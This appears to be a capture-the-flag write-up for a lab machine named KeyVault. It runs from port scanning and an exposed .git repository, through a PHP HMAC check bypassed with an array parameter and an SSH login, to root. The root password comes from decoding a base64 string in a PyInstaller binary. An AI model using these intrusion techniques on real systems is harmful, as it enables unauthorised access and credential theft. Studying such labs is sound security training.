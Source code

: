 # KeyVault

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.160.207
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 12:46 +08
Nmap scan report for 192.168.160.207
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

Did a detailed scan too:

```
$ sudo nmap -p 80,8080 -sC -sV --min-rate 3000 192.168.160.207
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 12:47 +08
Nmap scan report for 192.168.160.207
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: KeyVault Password Manager &amp; Vault App with Single-Sign On ...
8080/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-git: 
|   192.168.160.207:8080/.git/
|     Git repository found!
|     .git/config matched patterns 'key' 'user'
|     .gitignore matched patterns 'secret'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: Added Files and .gitignore 
|_    Project type: PHP application (guessed from .gitignore)
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: KeyVault - Password Manager
```

There was a `.git` repository which we could enumerate later.&#x20;

### Web + Git Enum

Port 80 hosted a website for a Password Manager:

<figure><img src="../../../.gitbook/assets/image (3945).png" alt=""><figcaption></figcaption></figure>

The site was rather static and had nothing interesting. Port 8080 had a login page:

<figure><img src="../../../.gitbook/assets/image (293).png" alt=""><figcaption></figcaption></figure>

Default credentials work, but we are redirected to this cryptic site:

<figure><img src="../../../.gitbook/assets/image (302).png" alt=""><figcaption></figcaption></figure>

Let's take a look at the `.git` repository files. The logs of the website reveal that there's a `hmac.php` which mentions a bit more about the crypto used:

```
$ git log -p -2
diff --git a/hmac.php b/hmac.php
new file mode 100644
index 0000000..0e54e4a
--- /dev/null
+++ b/hmac.php
@@ -0,0 +1,18 @@
+<?php
+if (empty($_GET['h']) || empty($_GET['host'])) {
+   header('HTTP/1.0 400 Bad Request');
+   print("Code sent to Ray for Review Until Then this site is protected......");
+   die();
+}
+require("secret.php"); 
+if (isset($_GET['token'])) {
+   $secret = hash_hmac('sha256', $_GET['token'], $secret);
+}
+
+$hm = hash_hmac('sha256', $_GET['host'], $secret);
+if ($hm !== $_GET['h']){
+  header('HTTP/1.0 403 Forbidden');
+  print("extra security check failed");
+  die();
+}
+?>
```

### Hash Bypass

We are required to submit a `h`, `host` and `token` variable to this website. There's a `$secret` value being passed around. While googling for similar exploits online, I came across this site:

{% embed url="https://www.securify.nl/blog/spot-the-bug-challenge-2018-warm-up/" %}

The above resources details a similar exploit, where they submit `token[]=` to trigger an error within PHP to make the value of `$security` obsolete. Thus, the second `hash_hmac` would just produce the SHA-256 hash of `host`, allowing attackers to just specify a `host` and using the SHA-256 value of `host` as `h`.&#x20;

&#x20;We can use their parameters to bypass this check:

<figure><img src="../../../.gitbook/assets/image (3928).png" alt=""><figcaption></figcaption></figure>

Visiting `index.php`with the same parameters will show us a page with a password:

<figure><img src="../../../.gitbook/assets/image (1181).png" alt=""><figcaption></figcaption></figure>

We can then `ssh` in as `ray`:

<figure><img src="../../../.gitbook/assets/image (674).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Apache-Restart --> Root Creds

Within the `/opt` directory, there's this file present:

{% code overflow="wrap" %}
```
ray@keyvault:/opt$ ls
apache-restart
ray@keyvault:/opt$ file apache-restart 
apache-restart: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ac40f3d3f795f9ee657f59a09fbedea23c4d7e25, for GNU/Linux 2.6.32, stripped
```
{% endcode %}

I ran the `binary` and on another `ssh` session, used `pspy64` to see the processes being run:

```
ray@keyvault:/opt$ ./apache-restart 
Restarting Apache Server without root....                                                    
                                                                                             
Password: 
Done
```

There was a password being keyed in. `pspy64` shows that `su` was run too:

```
2023/07/13 05:15:45 CMD: UID=1000 PID=4976   | ./apache-restart 
2023/07/13 05:15:45 CMD: UID=1000 PID=4977   | /bin/sh -c su -c '/bin/systemctl restart apache2'                                                                                          
2023/07/13 05:15:45 CMD: UID=0    PID=4978   | su -c /bin/systemctl restart apache2 
2023/07/13 05:15:45 CMD: UID=0    PID=4979   | (pachectl) 
2023/07/13 05:15:45 CMD: UID=0    PID=4981   | /usr/sbin/apache2 -k stop
```

Using `ltrace`, we can see the system calls makde and what is being written. However, the output is too long and difficult to analyse. I transferred this to my machine for further analysis. I ran `strings` on it and saw this bit:

```
blib-dynload/_asyncio.cpython-38-x86_64-linux-gnu.so
blib-dynload/_bz2.cpython-38-x86_64-linux-gnu.so
blib-dynload/_codecs_cn.cpython-38-x86_64-linux-gnu.so
blib-dynload/_codecs_hk.cpython-38-x86_64-linux-gnu.so
blib-dynload/_codecs_iso2022.cpython-38-x86_64-linux-gnu.so
blib-dynload/_codecs_jp.cpython-38-x86_64-linux-gnu.so
blib-dynload/_codecs_kr.cpython-38-x86_64-linux-gnu.so
blib-dynload/_codecs_tw.cpython-38-x86_64-linux-gnu.so
blib-dynload/_contextvars.cpython-38-x86_64-linux-gnu.so
blib-dynload/_ctypes.cpython-38-x86_64-linux-gnu.so
blib-dynload/_decimal.cpython-38-x86_64-linux-gnu.so
<TRUNCATED>
pydata
```

Because there's Python data, this might be a Python compiled binary. We can use a Python Decompiler to extract the modules that are within this.&#x20;

{% embed url="https://github.com/extremecoders-re/pyinstxtractor/tree/master" %}

```
$ python3 extractor.py apache-restart
[+] Processing apache-restart
[+] Pyinstaller version: 2.1+
[+] Python version: 3.8
[+] Length of package: 6807628 bytes
[+] Found 47 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_subprocess.pyc
[+] Possible entry point: pyi_rth_pkgutil.pyc
[+] Possible entry point: pyi_rth_multiprocessing.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: apache-restart.pyc
[!] Warning: This script is running in a different Python version than the one used to build the executable.
[!] Please run this script in Python 3.8 to prevent extraction errors during unmarshalling
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: apache-restart

You can now use a python decompiler on the pyc files within the extracted directory
```

Then, we can run `strings` on the `.pyc` files:

```
$ strings apache-restart.pyc 
TXlwZXRkb2duYW1laXNqYWNrOTA5z
utf-8z+Restarting Apache Server without root.... 
z'su -c '/bin/systemctl restart apache2' 
wg333333
Done)
base64
time
password
        b64decode
decode
print
popen
write
sleep
apache-restart.py
<module>
```

There's a string here, and it is `base64`:

```
$ echo TXlwZXRkb2duYW1laXNqYWNrOTA5z | base64 -d
Mypetdognameisjack909
```

Using this, we can `su` to `root`:

<figure><img src="../../../.gitbook/assets/image (3955).png" alt=""><figcaption></figcaption></figure>

Rooted!
